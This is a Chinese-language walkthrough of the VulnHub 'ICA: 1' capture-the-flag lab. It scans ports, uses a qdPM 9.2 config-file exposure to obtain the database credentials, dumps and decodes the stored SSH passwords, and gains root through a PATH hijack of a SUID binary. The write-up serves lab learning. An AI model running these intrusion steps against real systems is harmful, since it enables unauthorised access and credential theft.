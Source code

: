## vulnhub 做题 ICA: 1

### 扫描

```zsh
─$ nmap -p 1-65535 -sV 192.168.169.131
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-13 23:46 EDT
Nmap scan report for 192.168.169.131
Host is up (0.00020s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.48 ((Debian))
3306/tcp  open  mysql   MySQL 8.0.26
33060/tcp open  mysqlx?
1 service unrecognized despite returning data ..........
```

开了ssh和mysql，80的web是一个通过邮件登录的界面，显示这个软件叫做qdPM，版本是9.2

```zsh
qdPM 9.2 - Cross-site Request Forgery (CSRF)     php/webapps/50854.txt
qdPM 9.2 - Password Exposure (Unauthenticated)   php/webapps/50176.txt
```

第一个csrf的漏洞没看懂😭😭😭，第二个说是要访问这个网站的一个路径就能拿到sql的账号

```
The password and connection string for the database are stored in a yml file. To access the yml file you can go to http://<website>/core/config/databases.yml file and download
```

这个yml里写了账号是qdpmadmin，密码是UcVQCMQk2STVeS6J

登录sql的时候还遇到了点问题，直接链接会报错`ERROR 2026 (HY000): TLS/SSL error: self-signed certificate in certificate chain`，然后搜了一下加个参数，`--ssl-mode=DISABLED`，又说没有这个参数，然后又试了一下`--skip-ssl`，居然好使了😶‍🌫️（但这个参数说是很旧版的参数）

> 然后我打开了qdpm这个数据库里一个叫attachments的表的时候，sql直接崩了，web也没了，只能重启靶机😢

然后tqdm里这个user的表是空的，其他的似乎也没什么有价值的信息，只能换一个数据库看看

staff这里存储了叫做用户和密码的表

```sql
MySQL [staff]> select * from login;
+------+---------+--------------------------+
| id   | user_id | password                 |
+------+---------+--------------------------+
|    1 |       2 | c3VSSkFkR3dMcDhkeTNyRg== |
|    2 |       4 | N1p3VjRxdGc0MmNtVVhHWA== |
|    3 |       1 | WDdNUWtQM1cyOWZld0hkQw== |
|    4 |       3 | REpjZVZ5OThXMjhZN3dMZw== |
|    5 |       5 | Y3FObkJXQ0J5UzJEdUpTeQ== |
+------+---------+--------------------------+
5 rows in set (0.001 sec)

MySQL [staff]> select * from user;
+------+---------------+--------+---------------------------+
| id   | department_id | name   | role                      |
+------+---------------+--------+---------------------------+
|    1 |             1 | Smith  | Cyber Security Specialist |
|    2 |             2 | Lucas  | Computer Engineer         |
|    3 |             1 | Travis | Intelligence Specialist   |
|    4 |             1 | Dexter | Cyber Security Analyst    |
|    5 |             2 | Meyer  | Genetic Engineer          |
+------+---------------+--------+---------------------------+

```

密码显然是base64加密过后的，然后由于web是要用邮箱登录，肯定不是这个的密码，所以只能是开着的ssh密码，但是登陆时又遇到了问题（怎么这么多问题😅），最后去看了题解才知道，用户名要转换成小写😶‍🌫️😶‍🌫️😶‍🌫️

只有travis和dexter两个ssh能登陆的

```zsh
travis@debian:/home$ ls
dexter  travis
```

然后在travis的目录发现了一个flag
```zsh
travis@debian:/home/travis$ cat user.txt
ICA{Secret_Project}
```

而dexter的目录下有进一步的提示
```zsh
dexter@debian:~$ cat note.txt
It seems to me that there is a weakness while accessing the system.
As far as I know, the contents of executable files are partially viewable.
I need to find out if there is a vulnerability or not.
```

在opt下有一个 get_access 的程序，反汇编（至于怎么找到这里的，有的题解说是用`find / -perm -u=s 2>/dev/null`寻找能够以root权限执行的文件）

![](/img/pene/5.png)

可以通过替换cat可执行文件为/bin/bash来获取root权限，首先创建一个叫做cat的内容为/bin/bash的文本，然后chmod 777，然后添加到环境变量

```zsh
dexter@debian:/home/dexter$ export PATH=/home/dexter:$PATH
dexter@debian:/home/dexter$ echo $PATH
/home/dexter:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```

保证他在/usr/bin前边就行。提权成功之后要删掉才能正常输出（也有说可以用more命令的）

```zsh
root@debian:/root# rm /home/dexter/cat
root@debian:/root# cat ./root.txt 
ICA{Next_Generation_Self_Renewable_Genetics}
```
